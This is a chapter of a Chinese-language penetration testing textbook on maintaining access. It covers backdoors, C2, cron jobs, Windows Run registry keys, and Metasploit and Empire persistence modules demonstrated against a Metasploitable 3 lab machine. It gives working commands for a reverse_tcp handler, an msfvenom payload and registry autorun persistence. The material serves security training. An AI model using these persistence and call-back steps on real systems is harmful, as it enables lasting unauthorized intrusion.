

# 在环境中保持控制

一旦你进入了目标环境，你需要考虑如何维持访问，以便能够返回。在现实世界的攻击中，攻击者会创建多个后门或**命令和控制**（**C2**）通道，以便轻松地重新进入受损环境。在渗透测试中，你也会这样做。

在本章中，你将了解到维持访问是保持对目标系统控制的重要步骤，因为你可能使用的利用可能会被修补，最终移除你的临时远程访问。你将学习可以使用的各种技术和工具，并能够熟练地使用本章描述的工具来创建对目标系统的持久访问。

随着你在本章的学习过程中，你将了解以下主题：

+   维持访问的重要性

+   用于维持访问的技术

+   使用持久性工具

# 技术要求

本章需要以下技术要求：

+   Kali Linux 2019.1

+   Metasploitable 3

# 维持访问的重要性

在第十章中，*横向移动和提升特权*，我们进行了后期利用，并获得了对受损主机的访问权限，最终拥有了该域。如果我们利用的漏洞被修补，或者 IT 人员发现已经受到了侵害并采取了措施来弥补漏洞，最终移除了我们的访问权限，会发生什么？我们需要一种方法重新进入目标网络或系统。当然，我们可以尝试其他利用或甚至从社会工程攻击开始，但这需要时间，让我们退了好几步。这就是维持访问的重要性所在。一旦你侵入了初始系统，维持访问应该是首要任务。目标是在目标内获得持久存在，以实现深度访问的目标。

在现实世界中，有一个术语用来定义攻击者通常在被发现之前在系统中停留数月的情况。他们被称为**高级持续威胁**（**APT**）。APT 可以是攻击活动、一组入侵者，甚至是国家行为者，他们的目标是窃取数据、侵犯敏感数据或破坏关键基础设施。

国家行为者是为政府或国家工作的黑客，旨在破坏或侵犯其他政府或大型组织。他们的目标是获取高价值的数据和情报。朝鲜的"千里马"就是一个国家行为者的例子。

在渗透测试中，你不会专注于高级持续威胁的非道德目标；相反，你会专注于获得这些复杂攻击能够实现的持久性水平。

# 用于维持访问的技术

当你最初侵入目标系统时，你拥有临时访问权限。一旦系统重新启动，该访问权限就会终止。有许多技术可以用来维持访问。这些技术涵盖了从工具和恶意软件到使用内置系统工具。让我们考虑一些可以利用的各种技术。

# 后门

后门可以轻松地重新进入受损系统。特洛伊木马可以用于建立后门。特洛伊木马是一种伪装成合法软件的恶意软件，其目标是释放恶意载荷，以实现对系统的远程访问。特洛伊木马能够使用特权访问安装自己作为服务，例如本地系统。特洛伊木马也可以用于数据外泄。

使用特洛伊木马的问题在于它可能会被杀毒技术检测到。正如我们在第十一章中所强调的，*杀毒软件规避*，杀毒软件已经发展并具有复杂的检测能力。

# C2

C2 服务器用于与受损主机保持通信。这种通信可以从简单的心跳到完全成熟的使用目标系统作为机器人的命令传播。由于这种通信是从受损主机向 C2 服务器发起的，如果您使用已知开放的端口，如 HTTP/HTTPS，检测风险较小。

# Linux cron 作业

在 Linux 系统上，您可以自动启动任务。**Cron**是调度程序，可用于在特定时间运行特定命令。这些定期任务称为**cron 作业**。在操作系统中，这些 cron 作业通常用于执行诸如备份、删除日志文件和监视等任务。

您可以利用 cron 作业来运行您可能使用诸如 Metasploit 之类的工具生成的有效负载。一个更简单的任务可以是使用 cron 作业创建一个 netcat 会话，该会话将连接回您。

# 利用现有资源生存

利用现有操作系统工具执行任务是“利用现有资源生存”。例如，您可以使用 PowerShell 执行多项任务，从侦察到维护后门。注册表是建立持久性访问的好方法。利用注册表可以执行批处理文件和可执行文件，甚至使用 DLL 中的函数。

专注于注册表，了解**HKEY_LOCAL_MACHINE**（**HKLM**）和**HKEY_CURRENT_USER**（**HKCU**）之间的区别很重要。在**HKLM**中定义的键在系统启动时运行，而**HKCU**在用户登录后运行。在这里定义的键是最常见的，并用于注入后门：

```
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon]

[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServices]
[HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\RunServicesOnce]
[HKEY_CURRENT_USER\Software\Microsoft\Windows NT\CurrentVersion\Winlogon]
```

请注意，我们有定义为`Run`和`RunOnce`的注册表键。`RunOnce`键在启动或登录时运行一次，然后被删除，而`Run`键保持不变。

# 使用持久化工具

现在我们已经介绍了一些用于保持访问的技术，让我们专注于一些可用的工具。我们将首先看一下 Metasploit 框架。我们将介绍的第二个工具是 Empire。

# Metasploit 框架

我们在本书中广泛涵盖了 Metasploit，也就是说，在渗透测试的许多阶段中使用了它。在持久性方面，Metasploit 也有模块。

我的目标系统是 Metasploitable 3 虚拟机。我使用了`exploit/windows/smb/ms17_010_eternalblue`来利用它。

创建了 meterpreter 会话后，您可以使用`run persistence`命令利用内置的持久性脚本。我们可以在以下截图中看到可用的选项：


图 1：Meterpreter 持久性脚本选项

有一个警告通知我们 Meterpreter 脚本已被弃用，我们应该使用`/post/windows/manage/persistence_exe`。现在，让我们坚持使用弃用的脚本。

要获得持久性 shell，我们可以使用`run persistence -U -i [seconds] -p [port] -r [host]`命令。

这个命令让代理在用户登录时启动（`-U`）。我们以秒为单位定义间隔（`-i`）；我们定义远程端口（`-p`），然后是要连接回的主机（`-r`）。一旦脚本运行，我们将看到已设置一个注册表键，并且已使用`.vbs`文件设置了持久性：


图 2：使用 Meterpreter 脚本设置持久性

安装了持久性脚本后，shell 将在用户每次登录时重新建立。但是，我们还需要做一件事，那就是创建一个处理程序。这个处理程序将监听连接并创建远程会话。

可以使用以下命令设置一个简单的处理程序：

```
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST [IP]
set LPORT [PORT]
exploit
```

请记住，`LHOST`是持久性脚本中使用的相同 IP 地址，`LPORT`也是在该脚本中定义的相同端口。一旦执行了这些命令，反向处理程序就会启动：


图 3：在 Metasploit 中创建处理程序

现在，你已经为远程 shell 连接做好了一切准备，即使目标系统已经重启。你可以通过重新启动 Metasploitable 3 虚拟机来测试这一点。一旦机器启动并有用户登录，meterpreter 会话将建立连接。

让我们看一下 meterpreter 之前提到的推荐的后置模块。为了使用`/post/windows/manage/persistence_exe`，你需要创建一个有效载荷。我使用 MSFvenom 创建了一个简单的有效载荷。

在上面的屏幕截图中，用于创建在之前屏幕截图中看到的`payload.exe`文件的命令是`msfvenom -p windows/meterpreter/reverse_tcp LHOST=IP LPORT=1338 -f exe -o /root/Desktop/payload.exe`。请注意端口号——它与我们之前使用的不同。

一旦生成了有效载荷，你可以在 Meterpreter 会话中使用以下命令：

```
run post/windows/manage/persistence_exe REXEPATH=/root/Desktop/payload.exe
```

`REXEPATH`用于定义你在 Kali 环境中创建的有效载荷的位置。`STARTUP`用于定义启动类型（`User`、`System`或`Service`）；这将决定使用哪个注册表键。一旦输入了上述命令，Metasploit 将执行持久性攻击，并在注册表中创建一个自动运行，如下面的屏幕截图所示：


图 4：使用恶意有效载荷的持久性

一旦完成这些操作并退出 Meterpreter 会话，创建一个新的处理程序。记得定义一个不同的端口号。

在以下的屏幕截图中，请注意我建立的两个会话：


图 5：使用 Meterpreter 建立会话

通过在目标机器上使用`regedit`，我们可以验证注册表键是否存在：


图 6：Metasploit 中持久性模块创建的注册表键

Metasploit 框架中的持久性模块非常强大。在真实的渗透测试中，如果你使用 Metasploit 来保持访问，你将利用一个不可检测的有效载荷，因为杀毒软件可能会删除被释放到目标系统磁盘上的有效载荷。

# Empire

让我们专注于 Empire 提供的持久性模块。这些模块分为五类：

+   **PowerBreach**：这些专注于内存驻留后门。它们在重启后不会存在。

+   **Userland**：这些在重启后仍然存在，但只有在特定用户登录时才有效。这不是一个管理员持久性模块。

+   **提升权限**：这些允许在管理员上下文中使用持久性。它们在重启后仍然存在。

+   **Debugger**：这些使用各种工具在 RDP 登录之前实现持久性。例如，你可以利用一个作为`SYSTEM`运行的命令提示符 shell，而无需登录到目标机器。

+   **Misc**：这些是持久性的其他方法，例如，利用 Mimikatz 工具获取机器账户密码。

在下面的屏幕截图中，我有一个针对 Metasploitable 3 虚拟机的活动代理：



图 7：Empire 中的活动代理

使用`persistence/userland/registry`模块，我们将利用**HKCU**注册表来在用户上下文中植入一个持久性模块。这个脚本只会在用户登录时运行：


图 8：在用户上下文中使用持久性模块

一旦命令执行，我们将收到一些输出，其中定义了修改的注册表键，并可以将其添加到脚本中。在用户空间模块的情况下，它设置在`HKCU:Software\Microsoft\Windows\CurrentVersion\Debug`中。

现在，让我们尝试一个提升的持久性模块。我们将使用`persistence/elevated/registry`模块。这使用**HKLM**注册表来植入一个脚本，该脚本将在目标系统启动时运行。我们将进一步修改此模块以定义我们自己的注册表位置（使用`set RegPath HKLM:SOFTWARE\Microsoft\Windows\CurrentVersion\Run`命令）和键（使用`set KeyName`命令和一些随机字符）：


图 9：在提升的系统上下文中使用持久性模块

一旦命令执行，注册表键将被设置，我们将对远程系统有持久的连接。

在目标机器上使用`regedit`，我们可以验证注册表键是否存在：


图 10：Empire 设置的注册表键

Empire 拥有丰富的持久性模块可供使用。这些模块涵盖了注册表、计划任务等等。在实验室中尝试它们将帮助您充分了解每个模块的工作原理。

# 摘要

保持访问是渗透测试的重要部分。这可以避免您不得不重新利用目标系统。请记住，您最初可能使用的漏洞可能自您上次使用以来已经修补。因此，您需要另一种访问目标系统的方式，以免找到新的漏洞并浪费时间。

在本章中，您了解了可以用于在目标环境中保持访问的各种技术。您学会了识别 Windows 注册表的特定键以及它们如何用于持久性。最后，您学会了如何使用各种工具来保持对目标系统的访问。

在第十三章中，*报告和处理您的发现*，我们将讨论如何撰写渗透测试报告以及如何根据这些发现确定和推荐补救措施。

# 问题

1.  为什么需要保持访问？

1.  什么是 APT？

1.  列举两种可以用于保持访问的技术。

1.  “living off the land”是什么意思？

1.  HKCU 和 HKLM 之间有什么区别？
